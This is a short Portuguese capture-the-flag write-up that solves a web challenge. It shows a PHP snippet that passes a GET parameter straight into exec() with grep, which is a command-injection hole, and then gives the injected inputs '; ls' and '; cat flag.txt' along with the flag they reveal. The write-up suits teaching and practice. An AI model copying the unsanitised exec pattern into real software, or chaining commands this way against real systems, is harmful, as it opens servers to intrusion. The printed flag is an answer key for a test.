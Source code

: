 # Sopa de letrinhas

**Flag:** `Ganesh{fL46_!5N7_iN_Dic7}`

Ao entrar na página fiz alguns testes e percebi que provavelmente tinha um banco de palavras. Tentei achar a flag enviando um "Ganesh" como busca, para ver se retornava algo, mas não retornou nada. Então a flag devia estar escondida em algum outro lugar.

Abri então o código fonte e vi que possuía o código fonte do php, que basicamente recebia o que estava na query e enviava um comando para o shell executar.

```php
$query = trim($_GET["q"]);
$results = [ ];

if(!empty($query)) {
    exec("cat list.txt | grep " . $query, $results);
}
```

Então comecei tentando ver os arquivos que o diretório possuia por meio do ls, mandando a seguinte query: `; ls`. O `;` é para quebrar o comando anterior, que é o `grep` do `cat` da `list.txt`.

Então a página me retornou o seguinte:

```text
3 resultados encontrados:

flag.txt
index.php
list.txt
```

Ao dar um `cat` da `flag.txt` \(`; cat flag.txt`\) a página me retornou:

```text
1 resultados encontrados:

Ganesh{fL46_!5N7_iN_Dic7}
```

